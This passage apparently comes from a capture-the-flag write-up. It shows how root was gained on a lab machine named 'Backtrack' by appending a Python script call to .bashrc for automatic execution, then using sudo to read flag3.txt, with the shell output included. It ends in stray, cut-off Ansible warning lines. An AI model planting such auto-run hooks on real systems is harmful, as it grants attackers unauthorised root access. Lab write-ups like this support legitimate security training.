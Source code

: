 We save this script as `pushback.py` on the machine and force the automatic execution in `.bashrc` :

```shell
orville@Backtrack:/home/orville$ echo "/usr/bin/python3 /home/orville/pushback.py" >> ~/.bashrc

orville@Backtrack:/home/orville$ cat .bashrc
cat .bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

[...]

if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi
/usr/bin/python3 /home/orville/pushback.py
```

We wait for the cronjob to be executed and simply switch to root using `sudo su -`, then finally retrieve the third flag.

```shell
orville@Backtrack:/home/orville$ ps aux | grep bash
ps aux | grep bash
wilbur      1385  0.0  0.4   8276  4776 pts/0    Ss+  10:12   0:00 -bash
orville     1838  0.0  0.4   5164  4304 pts/1    Ts   10:15   0:00 bash -i
orville     2846  0.0  0.4   5164  4308 pts/2    Ts   10:23   0:00 bash -i
orville     3292  0.0  0.4   5164  4380 pts/3    Ss+  10:25   0:00 bash -i
orville    13812  0.0  0.4   5164  4588 pts/4    Ss+  11:38   0:00 bash -i
orville    14145  0.0  0.4   5164  4448 pts/6    Ss+  11:40   0:00 bash -i
orville    14589  0.0  0.4   5164  4464 pts/7    Ss+  11:43   0:00 bash -i
orville    14744  0.0  0.4   5164  4492 pts/8    Ts   11:44   0:00 bash -i
orville    15943  0.0  0.4   5164  4500 pts/5    Ss   11:52   0:00 bash -i
root       16360  2.0  0.5  10024  5088 pts/9    Ss+  11:55   0:00 -bash # This proves the cronjobs ran
orville    16372  0.0  0.4  10004  4884 pts/9    T    11:55   0:00 -bash
orville    16384  0.0  0.0   3304   652 pts/5    S+   11:55   0:00 grep --color=auto bash

orville@Backtrack:/home/orville$ sudo su -
sudo su -
root@Backtrack:~# ls
ls
flag3.txt  manage.py  snap
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
